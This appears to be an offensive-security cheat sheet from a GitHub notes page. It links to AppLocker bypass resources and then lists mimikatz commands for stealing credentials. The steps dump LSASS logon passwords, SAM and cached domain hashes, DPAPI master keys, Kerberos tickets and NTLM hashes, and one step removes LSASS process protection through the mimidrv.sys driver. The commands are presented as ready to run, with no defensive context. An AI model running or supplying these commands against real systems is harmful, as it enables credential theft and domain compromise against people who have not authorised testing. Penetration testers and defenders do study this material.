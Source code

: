 #### Bypass Strategies
- https://aj-labz.gitbook.io/aj-labz/offensive-cyberz/defense-evasion/evade-heuristic-behaviors/applocker-bypass
- using remote.exe https://mrd0x.com/Exeuction-AWL-Bypass-Remote-exe-LOLBin/
- lolbas https://lolbas-project.github.io/#

## Mimikatz

Here’s a concise cheat sheet for using **mimikatz** to dump various passwords:

1. **Enable Debug Privileges**:
   ```
   privilege::debug
   ```

2. **Dump LSASS Passwords** (Credentials of logged-in users):
   ```
   sekurlsa::logonpasswords
   ```

3. **Dump Domain Trust Information**:
   ```
   lsadump::trust /patch
   ```

4. **Dump SAM Database (Local User Passwords)**:
   ```
   token::elevate
   lsadump::sam
   ```

5. **Dump Cached Domain Credentials**:
   ```
   sekurlsa::logonpasswords
   lsadump::cache
   ```

6. **Dump DPAPI Master Keys**:
   ```
   dpapi::masterkey /system
   ```

7. **Extract Kerberos Tickets**:
   ```
   sekurlsa::tickets /export
   ```

8. **Extract NTLM Hashes**:
   ```
   sekurlsa::logonpasswords
   ```

9. **Dump Passwords from Local Machine via mimidrv.sys**:
   ```
   !+ 
   !processprotect /process:lsass.exe /remove
   sekurlsa::logonpasswords
   ```
